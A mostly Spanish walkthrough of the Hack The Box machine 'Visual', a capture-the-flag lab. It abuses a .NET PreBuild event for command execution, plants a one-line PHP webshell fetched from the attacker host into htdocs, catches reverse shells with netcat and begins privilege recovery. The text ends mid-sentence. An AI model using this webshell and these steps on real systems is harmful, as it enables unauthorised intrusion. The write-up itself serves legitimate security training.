Hack The Box: Visual Writeup
Welcome to my detailed writeup of the medium difficulty machine “Visual” on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.
TCP Enumeration
1rustscan -a 10.129.229.122 --ulimit 5000 -g
210.129.229.122 -> [80] 1nmap -p80 10.129.229.122 -sCV -oN allPorts
2Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-26 01:17 CEST
3Nmap scan report for 10.129.229.122
4Host is up (0.038s latency).
5
6PORT STATE SERVICE VERSION
780/tcp open http Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
8|_http-title: Visual - Revolutionizing Visual Studio Builds
9|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
10
11Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
12Nmap done: 1 IP address (1 host up) scanned in 11.79 secondsUDP Enumeration
1sudo nmap --top-ports 1500 10.129.229.122 -sU --min-rate 5000 -n -Pn -oN allPorts.UDP
2Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-26 01:17 CEST
3Nmap scan report for 10.129.229.122
4Host is up.
5All 1500 scanned ports on 10.129.229.122 are in ignored states.
6Not shown: 1500 open|filtered udp ports (no-response)
7
8Nmap done: 1 IP address (1 host up) scanned in 2.39 secondsEl único punto de entrada es el puerto 80/TCP.
HTTP Enumeration
whatweb no nos reporta nada relevante
1ttp://10.129.229.122 [200 OK] Apache[2.4.56], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17], IP[10.129.229.122], OpenSSL[1.1.1t], PHP[8.1.17], Script, Title[Visual - Revolutionizing Visual Studio Builds], X-Powered-By[PHP/8.1.17]El sitio web se ve así. 
Nos pide que adjuntemos un repositorio git que contenga un proyecto en C# / .NET 6.0 y este compilará la solución (.sln) y nos devolverá los DLL’s.
Gracias a que ya he trabajado con proyectos de Visual Studio anteriormente se que existe una opción al compilar el proyecto que es la opción de PreBuild, este opción permite ejecutar un comando a nivel de sistema antes de compilar el proyecto.
El problema aquí es que necesito hostear el repositorio git de alguna forma y debido a que las máquinas de HackTheBox no tienen conexión a Internet tengo que buscarme la vida.
Gitea Instance with Docker
Voy a crear una instancia de gitea con Docker ya que es lo que mas fácil veo.
1sudo docker pull gitea/gitea:latest
2Emulate Docker CLI using podman. Create /etc/containers/nodocker to quiet msg.
3Resolving "gitea/gitea" using unqualified-search registries (/etc/containers/registries.conf)
4Trying to pull docker.io/gitea/gitea:latest...
5Getting image source signatures
6Copying blob a6f93238fbf9 done
7Copying blob 2aebd935eab5 done
8Copying blob 7f63cdf32c7d done
9Copying blob 823f22cebab2 done
10Copying blob 7ba71f787c2a done
11Copying blob ec99f8b99825 done
12Copying blob 09506ba9f9c2 done
13Copying config b3de729701 done
14Writing manifest to image destination
15Storing signatures
16b3de72970178139c31eb972537355c815095a8550cc1ed21944bcc5d58b66e87Ahora simplemente establecemos el puerto 3000 local para este contenedor Docker.
1docker run -p 3000:3000 gitea/gitea
2Emulate Docker CLI using podman. Create /etc/containers/nodocker to quiet msg.
3Resolving "gitea/gitea" using unqualified-search registries (/etc/containers/registries.conf)
4Trying to pull docker.io/gitea/gitea:latest...
5Getting image source signatures
6Copying blob 2aebd935eab5 done
7Copying blob a6f93238fbf9 done
8Copying blob ec99f8b99825 done
9Copying blob 823f22cebab2 done
10Copying blob 7f63cdf32c7d done
11Copying blob 7ba71f787c2a done
12Copying blob 09506ba9f9c2 done
13Copying config b3de729701 done
14Writing manifest to image destination
15Storing signatures
16Generating /data/ssh/ssh_host_ed25519_key...
17Generating /data/ssh/ssh_host_rsa_key...
18Generating /data/ssh/ssh_host_ecdsa_key...
19Server listening on :: port 22.
20Server listening on 0.0.0.0 port 22.
212024/08/25 23:28:31 cmd/web.go:242:runWeb() [I] Starting Gitea on PID: 12
222024/08/25 23:28:31 cmd/web.go:111:showWebStartupMessage() [I] Gitea version: 1.22.1 built with GNU Make 4.4.1, go1.22.5 : bindata, timetzdata, sqlite, sqlite_unlock_notify
232024/08/25 23:28:31 cmd/web.go:112:showWebStartupMessage() [I] * RunMode: prod
242024/08/25 23:28:31 cmd/web.go:113:showWebStartupMessage() [I] * AppPath: /usr/local/bin/gitea
252024/08/25 23:28:31 cmd/web.go:114:showWebStartupMessage() [I] * WorkPath: /data/gitea
262024/08/25 23:28:31 cmd/web.go:115:showWebStartupMessage() [I] * CustomPath: /data/gitea
272024/08/25 23:28:31 cmd/web.go:116:showWebStartupMessage() [I] * ConfigFile: /data/gitea/conf/app.ini
282024/08/25 23:28:31 cmd/web.go:117:showWebStartupMessage() [I] Prepare to run install page
292024/08/25 23:28:32 cmd/web.go:304:listen() [I] Listen: http://0.0.0.0:3000
302024/08/25 23:28:32 cmd/web.go:308:listen() [I] AppURL(ROOT_URL): http://localhost:3000/
312024/08/25 23:28:32 ...s/graceful/server.go:50:NewServer() [I] Starting new Web server: tcp:0.0.0.0:3000 on PID: 12Y ya tenemos en el puerto 3000/TCP nuestra instancia de Gitea.

Weaponizing .NET Project -> Foothold
Creamos un proyecto con la plantilla Aplicación de consola

Le asignamos un nombre..

Seleccionamos la versión .NET que tengamos. 
En Proyecto -> Evil Propiedades

Podemos cambiar el framework a .NET 6.0 y nos saldrá la opción de instalar la versión 6.0 (si no la tenemos como es mi caso)

Y en Compilación -> Salida -> Evento anterior a la compilación podemos introducir un comando que se ejecutará a nivel de sistema cuando se compile este proyecto.

Vamos a probar a mandarnos un ping. 
Si ahora intentamos compilar la solución vemos lo siguiente. 
Así que solo falta crear el repositorio en gitea que albergue este proyecto.
Creamos el proyecto en gitea.

En local creamos el repositorio y lo subimos con git al repositorio remoto creado en Gitea
1git init
2hint: Using 'master' as the name for the initial branch. This default branch name
3hint: is subject to change. To configure the initial branch name to use in all
4hint: of your new repositories, which will suppress this warning, call:
5hint:
6hint: git config --global init.defaultBranch <name>
7hint:
8hint: Names commonly chosen instead of 'master' are 'main', 'trunk' and
9hint: 'development'. The just-created branch can be renamed via this command:
10hint:
11hint: git branch -m <name>
12Initialized empty Git repository in /home/pointedsec/Desktop/visual/content/evil/Evil/.git/
13┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/visual/content/evil/Evil]
14└──╼ [★]$ git add *
15┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/visual/content/evil/Evil]
16└──╼ [★]$ git commit -m "first commit"
17[master (root-commit) ae72e16] first commit
18 Committer: pointedsec <pointedsec@localhost.localdomain>
19Your name and email address were configured automatically based
20on your username and hostname. Please check that they are accurate.
21You can suppress this message by setting them explicitly:
22
23 git config --global user.name "Your Name"
24 git config --global user.email you@example.com
25
26After doing this, you may fix the identity used for this commit with:
27
28 git commit --amend --reset-author
29
30 21 files changed, 307 insertions(+)
31 create mode 100755 Evil.sln
32 create mode 100755 Evil/Evil.csproj
33 create mode 100755 Evil/Program.cs
34 create mode 100755 Evil/obj/Debug/net6.0/.NETCoreApp,Version=v6.0.AssemblyAttributes.cs
35 create mode 100755 Evil/obj/Debug/net6.0/Evil.AssemblyInfo.cs
36 create mode 100755 Evil/obj/Debug/net6.0/Evil.AssemblyInfoInputs.cache
37 create mode 100755 Evil/obj/Debug/net6.0/Evil.GeneratedMSBuildEditorConfig.editorconfig
38 create mode 100755 Evil/obj/Debug/net6.0/Evil.GlobalUsings.g.cs
39 create mode 100755 Evil/obj/Debug/net6.0/Evil.assets.cache
40 create mode 100755 Evil/obj/Debug/net6.0/Evil.csproj.FileListAbsolute.txt
41 create mode 100755 Evil/obj/Debug/net8.0/.NETCoreApp,Version=v8.0.AssemblyAttributes.cs
42 create mode 100755 Evil/obj/Debug/net8.0/Evil.AssemblyInfo.cs
43 create mode 100755 Evil/obj/Debug/net8.0/Evil.AssemblyInfoInputs.cache
44 create mode 100755 Evil/obj/Debug/net8.0/Evil.GeneratedMSBuildEditorConfig.editorconfig
45 create mode 100755 Evil/obj/Debug/net8.0/Evil.GlobalUsings.g.cs
46 create mode 100755 Evil/obj/Debug/net8.0/Evil.assets.cache
47 create mode 100755 Evil/obj/Evil.csproj.nuget.dgspec.json
48 create mode 100755 Evil/obj/Evil.csproj.nuget.g.props
49 create mode 100755 Evil/obj/Evil.csproj.nuget.g.targets
50 create mode 100755 Evil/obj/project.assets.json
51 create mode 100755 Evil/obj/project.nuget.cache
52┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/visual/content/evil/Evil]
53└──╼ [★]$ git remote add origin http://127.0.0.1:3000/pointedsec/evil.git
54┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/visual/content/evil/Evil]
55└──╼ [★]$ git push origin main
56error: src refspec main does not match any
57error: failed to push some refs to 'http://127.0.0.1:3000/pointedsec/evil.git'
58┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/visual/content/evil/Evil]
59└──╼ [★]$ git push -u origin main
60error: src refspec main does not match any
61error: failed to push some refs to 'http://127.0.0.1:3000/pointedsec/evil.git'
62┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/visual/content/evil/Evil]
63└──╼ [★]$ git checkout -b main
64Switched to a new branch 'main'
65┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/visual/content/evil/Evil]
66└──╼ [★]$ git push -u origin main
67Username for 'http://127.0.0.1:3000': pointedsec
68Password for 'http://pointedsec@127.0.0.1:3000':
69Enumerating objects: 25, done.
70Counting objects: 100% (25/25), done.
71Delta compression using up to 4 threads
72Compressing objects: 100% (24/24), done.
73Writing objects: 100% (25/25), 4.81 KiB | 1.60 MiB/s, done.
74Total 25 (delta 4), reused 0 (delta 0), pack-reused 0
75remote: . Processing 1 references
76remote: Processed 1 references in total
77To http://127.0.0.1:3000/pointedsec/evil.git
78 * [new branch] main -> main
79branch 'main' set up to track 'origin/main'.Y aquí tenemos el repositorio.
Ahora si introducimos nuestro repositorio para que sea compilado y con tcpdump nos ponemos en escucha de trazas ICMP por la interfaz tun0

1sudo tcpdump -i tun0 icmp
2tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
3listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
401:53:22.963734 IP 10.129.229.122 > 10.10.14.125: ICMP echo request, id 1, seq 1, length 40
501:53:22.963767 IP 10.10.14.125 > 10.129.229.122: ICMP echo reply, id 1, seq 1, length 40
601:53:23.980086 IP 10.129.229.122 > 10.10.14.125: ICMP echo request, id 1, seq 2, length 40
701:53:23.980106 IP 10.10.14.125 > 10.129.229.122: ICMP echo reply, id 1, seq 2, length 40
801:53:24.995042 IP 10.129.229.122 > 10.10.14.125: ICMP echo request, id 1, seq 3, length 40
901:53:24.995071 IP 10.10.14.125 > 10.129.229.122: ICMP echo reply, id 1, seq 3, length 40
1001:53:26.010710 IP 10.129.229.122 > 10.10.14.125: ICMP echo request, id 1, seq 4, length 40
1101:53:26.010730 IP 10.10.14.125 > 10.129.229.122: ICMP echo reply, id 1, seq 4, length 40¡Tenemos ejecución remota de comandos!
En el archivo /Evil/Evil.csproj es donde se define el evento PreBuild así que podemos directamente cambiar el comando a ejecutar desde aquí.

Nos podemos copiar el payload para enviarnos una reverse shell de revshells.com

Hacemos el commit.
1git add *
2┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/visual/content/evil/Evil]
3└──╼ [★]$ git commit -m "Updated Prebuild"Subimos el commit al gitea.
1git push origin main
2Username for 'http://127.0.0.1:3000': pointedsec
3Password for 'http://pointedsec@127.0.0.1:3000':
4Enumerating objects: 7, done.
5Counting objects: 100% (7/7), done.
6Delta compression using up to 4 threads
7Compressing objects: 100% (4/4), done.
8Writing objects: 100% (4/4), 1.17 KiB | 1.17 MiB/s, done.
9Total 4 (delta 0), reused 0 (delta 0), pack-reused 0
10remote: . Processing 1 references
11remote: Processed 1 references in total
12To http://127.0.0.1:3000/pointedsec/evil.git
13 ae72e16..cb5c553 main -> mainPodemos comprobar que se ha actualizado correctamente. 
Ahora nos ponemos en escucha con netcat por el puerto 443 y enviamos otra solicitud para compilar nuestro proyecto albergado en el repositorio.
Y conseguimos acceso a la máquina víctima como el usuario enox.
1sudo rlwrap -cEr nc -lvnp 443
2listening on [any] 443 ...
3connect to [10.10.14.125] from (UNKNOWN) [10.129.229.122] 49675
4
5PS C:\Windows\Temp\4a1ccfedd9e2a8a35f137a5a53ec81\Evil> whoami
6visual\enoxPodemos leer la flag de usuario.
1PS C:\Users\enox\Desktop> type user.txt
2ca15b45db969cf...User Pivoting
Después de enumerar la máquina tampoco encuentro cosas relevantes.
Pero después de un rato encontramos que tenemos permiso de escritura en el directorio donde se alberga el sitio web.
1PS C:\xampp> icacls htdocs
2htdocs Everyone:(OI)(CI)(F)
3 Everyone:(I)(OI)(CI)(F)
4 NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
5 BUILTIN\Administrators:(I)(OI)(CI)(F)
6 BUILTIN\Users:(I)(OI)(CI)(RX)
7 BUILTIN\Users:(I)(CI)(AD)
8 BUILTIN\Users:(I)(CI)(WD)
9 CREATOR OWNER:(I)(OI)(CI)(IO)(F)Pensaba que el usuario que hosteaba este servicio web era el mismo usuario, es decir, enox , y para asegurarme persistencia creé una simple webshell en PHP.
1<?php
2//pointed.php
3 echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
4?>
1PS C:\xampp\htdocs> iwr http://10.10.14.125:8081/pointed.php -o pointed.phpY me di cuenta de que la cuenta de usuario no era enox si no nt authority\local service

Muy de potra todo pero nos mandamos la revshell… 
Y ganamos acceso como este usuario.
1sudo rlwrap -cEr nc -lvnp 443
2listening on [any] 443 ...
3connect to [10.10.14.125] from (UNKNOWN) [10.129.229.122] 49677
4
5PS C:\xampp\htdocs> whoami
6nt authority\local servicePrivilege Escalation
Recovering Privileges
De las primeras cosas que siempre pruebo es a listar los privilegios de esta cuenta, y siendo una cuenta del sistema me esperaba que tuviera algún privilegio especial pero no era el caso.
1PS C:\xampp\htdocs> whoami /priv
2
3PRIVILEGES INFORMATION
4----------------------
5
6Privilege Name Description State
7============================= ============================== ========
8SeChangeNotifyPrivilege Bypass traverse checking Enabled
9SeCreateGlobalPrivilege Create global objects Enabled
10SeIncreaseWorkingSetPrivilege Increase a process working set DisabledSegún Microsoft esta cuenta debería de tener mas privilegios de los que tenemos… https://learn.microsoft.com/en-us/windows/win32/services/localservice-account

Echando un vistazo a HackTricks me encontré lo siguiente. 
Que me llevaba a este repositorio de Github llamado FullPowers
Según el itm4n, en windows, cuando un servicio es ejecutado como local service o network service están configurados por defecto para tener una serie de privilegios muy bajos.
Pero si creamos una tarea programada el nuevo proceso creado por el servicio de programación de tareas tiene todos los privilegios predeterminados y con alguna manipulación de tokens mas estos privilegios obtenidos podemos generar un proceso con todos los privilegios faltantes.
On Windows, some services executed as
